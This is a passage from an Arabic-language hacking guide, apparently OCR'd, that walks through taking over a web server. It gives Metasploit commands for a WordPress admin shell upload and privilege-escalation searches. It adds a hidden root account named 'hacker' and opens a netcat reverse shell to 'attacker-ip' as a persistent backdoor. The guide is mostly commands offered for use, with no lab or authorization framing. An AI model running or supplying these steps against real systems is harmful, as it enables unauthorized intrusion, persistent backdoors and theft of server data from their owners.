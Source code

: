 ```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target.com
set USERNAME admin
set PASSWORD password123
exploit
```

---

### **4️⃣ الحصول على صلاحيات أعلى (Privilege Escalation)**

✅ **البحث عن كلمات مرور مخزنة:**

```bash
find / -name "*.config" 2>/dev/null
```

✅ **محاولة كسر كلمة مرور مستخدم Root:**

```bash
sudo -l
```

✅ **استغلال Kernel Exploits:**

```bash
searchsploit linux kernel privilege escalation
```

---

### **5️⃣ السيطرة الكاملة على السيرفر (Post-Exploitation)**

✅ **إضافة مستخدم جديد بصلاحيات Root:**

```bash
useradd -m -p $(openssl passwd -1 newpassword) hacker
usermod -aG sudo hacker
```

✅ **عمل Backdoor للاستمرار في التحكم:**

```bash
nc -e /bin/bash attacker-ip 4444
```

✅ **استخراج البيانات الحساسة:**

```bash
cat /etc/passwd
```

---

### **🚀 الخلاصة النهائية:**

1️⃣ **ابدأ بجمع المعلومات عن الموقع باستخدام `subfinder` و `gobuster`**  
2️⃣ **افحص المنافذ والثغرات باستخدام `nmap` و `sqlmap`**  
3️⃣ **حاول استغلال الثغرات باستخدام `Metasploit` أو تحميل Shell**  
4️⃣ **ابحث عن طرق للحصول على صلاحيات أعلى في السيرفر**  
5️⃣ **حافظ على التحكم في السيرفر باستخدام Backdoors**

🔥 **كده معاك دليل كامل لـ `rpcclient` + Web Pentesting!** 💀💻